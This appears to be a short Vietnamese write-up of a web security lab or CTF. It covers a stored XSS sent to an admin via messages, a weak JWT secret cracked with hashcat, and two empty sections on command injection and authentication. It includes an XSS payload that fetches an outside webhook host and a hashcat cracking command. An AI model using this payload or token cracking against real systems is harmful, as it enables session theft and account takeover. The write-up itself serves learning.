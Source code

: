## Writeup

### XSS

Đầu tiên vào `/settings` và bật XSS: Yes

![image](https://github.com/user-attachments/assets/e3d22f64-2713-4d4a-9a6c-82eb4faf578c)

Ở phần trang chủ có chức năng `Send messages` cho admin xem

![image](https://github.com/user-attachments/assets/f3b35e9a-47f8-4701-ae93-4078702381ae)

=> Gửi messages: `<img src=1 onerror=fetch("https://webhook.site/8bab6bcd-4a1b-4735-a2e1-5139468d7126")>`

Sau đó admin qua messages check messages, 1 request đến webhook được tạo ra

![image](https://github.com/user-attachments/assets/b99969dd-3ee2-44f9-adb0-f68f0923957a)

XSS xảy ra tại `dangerouslySetInnerHTML`

![image](https://github.com/user-attachments/assets/07f87375-dbde-4570-a629-dcfbfd572d95)


### JWT

![image](https://github.com/user-attachments/assets/12f422ef-b637-40a5-8a45-ad6e8a6f50c2)

Lỗ hổng JWT này xảy ra do sử dụng secretkey yếu (dễ dàng wordlists)

Mở Kali Linux, sử dụng hashcat:

`hashcat -m 16500 -a 0 <token> <wordlist>`


### Command Injection



### Authentication
